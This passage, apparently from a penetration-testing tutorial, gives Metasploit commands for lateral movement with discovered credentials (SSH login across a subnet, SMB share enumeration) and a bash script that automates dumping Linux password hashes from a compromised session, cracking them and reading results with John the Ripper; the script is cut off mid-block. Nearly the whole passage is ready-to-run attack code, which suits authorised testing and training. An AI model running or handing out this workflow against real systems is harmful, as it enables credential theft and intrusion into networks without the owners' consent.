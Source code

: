 #### **Lateral Movement with Metasploit:**
```bash
# Use discovered credentials for network expansion
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.1.0/24
set USERNAME discovered_username
set PASSWORD discovered_password
run

# SMB enumeration with valid credentials
use auxiliary/scanner/smb/smb_enumshares
set RHOSTS target_range
set SMBUser discovered_username
set SMBPass discovered_password
run
```

### **⚙️ Automation Script for Complete Workflow:**

```bash
#!/bin/bash
# hash_crack_workflow.sh - Complete hash cracking automation

TARGET=$1
SESSION_ID=$2
LOGFILE="hash_workflow_$(date +%Y%m%d_%H%M%S).log"

if [ -z "$TARGET" ] || [ -z "$SESSION_ID" ]; then
    echo "Usage: $0 <target_ip> <session_id>"
    exit 1
fi

echo "[+] Starting complete hash cracking workflow" | tee $LOGFILE
echo "[+] Target: $TARGET, Session: $SESSION_ID" | tee -a $LOGFILE

# Phase 1: Hash Extraction
echo "[+] Phase 1: Extracting password hashes" | tee -a $LOGFILE
cat > /tmp/extract_hashes.rc << EOF
use post/linux/gather/hashdump
set SESSION $SESSION_ID
exploit
exit
EOF

msfconsole -r /tmp/extract_hashes.rc | tee -a $LOGFILE

# Phase 2: Automated Cracking
echo "[+] Phase 2: Automated hash cracking" | tee -a $LOGFILE
cat > /tmp/crack_hashes.rc << EOF
use auxiliary/analyze/crack_linux
set SHA512 true
run
exit
EOF

msfconsole -r /tmp/crack_hashes.rc | tee -a $LOGFILE

# Phase 3: Manual Analysis (if needed)
echo "[+] Phase 3: Manual hash analysis" | tee -a $LOGFILE
HASH_FILE=$(ls /root/.msf4/loot/*linux.hashes*.txt 2>/dev/null | head -1)
if [ -f "$HASH_FILE" ]; then
    echo "[*] Processing hash file: $HASH_FILE" | tee -a $LOGFILE
    john --show "$HASH_FILE" | tee -a $LOGFILE
else
```